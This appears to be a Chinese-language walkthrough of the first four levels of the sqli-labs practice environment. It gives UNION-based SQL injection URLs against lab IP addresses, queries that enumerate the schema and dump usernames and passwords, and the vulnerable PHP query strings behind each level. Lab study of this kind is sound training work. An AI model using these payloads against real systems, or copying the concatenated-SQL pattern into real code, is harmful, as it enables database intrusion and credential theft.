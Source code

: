 #### 1. 基础难度

##### 1. less-1,single quotes - String

显示位置在2,3号

http://192.168.217.113:7766/Less-1/?id=1' union select 1,2,3 limit 1,1 --+

```sql
// 查询库名： 
(select group_concat(schema_name) from information_schema.schema)
// 查询表名： 
(select group_concat(table_name) from information_schema.tables where table_schema='security')
// 查询表内列名： 
(select group_concat(column_name) from information_schema.columns where table_name='users')
// 爆破所有数据: 
(select group_concat(username) from security.users) ,  (select group_concat(password) from security.users)
```





##### 2. Less-2, - integer

http://192.168.217.113:7766/Less-1/?id=1 union select 1,2,3 limit 1,1 --+

整型和字符型的区别  在于需不需要提前使用`'`进行截断

```php
// 字符串型
$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";
// 整型
$sql="SELECT * FROM users WHERE id=$id LIMIT 0,1";
```



##### 3. Less-3,Single quotes with twist - String

http://192.168.217.113:7766/Less-1/?id=1') union select 1,2,3 limit 1,1 --+

上面的方式不能生效了，对比之后多了个`()`，因此需要补全括号，否则永远被括号括起来，最后结果还是逃不掉最后的limit

```php
$sql="SELECT * FROM users WHERE id=('$id') LIMIT 0,1";
```



##### 4. Less-4,Double Quotes - String

http://172.16.51.129:7766/Less-4/?id=1") union select 1,2,3 limit 1,1 --+

 使用`""`对查询内容进行拼接，并且放在了`()`中。

```php
$id = '"' . $id . '"';
$sql="SELECT * FROM users WHERE id=($id) LIMIT 0,1";

```
